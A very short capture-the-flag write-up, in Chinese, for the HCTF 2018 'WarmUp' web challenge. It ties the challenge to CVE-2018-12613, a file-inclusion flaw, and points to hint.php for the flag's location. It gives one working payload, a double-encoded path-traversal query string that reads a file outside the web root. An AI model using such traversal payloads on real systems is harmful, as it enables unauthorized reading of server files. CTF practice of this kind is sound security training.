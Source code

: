 # \[HCTF 2018]WarmUp

CVE-2018-12613&#x20;

文件包含的问题 hint.php 有提示 flag 位置&#x20;

payload：`?file=source.php%253f/../../../../ffffllllaaaagggg`
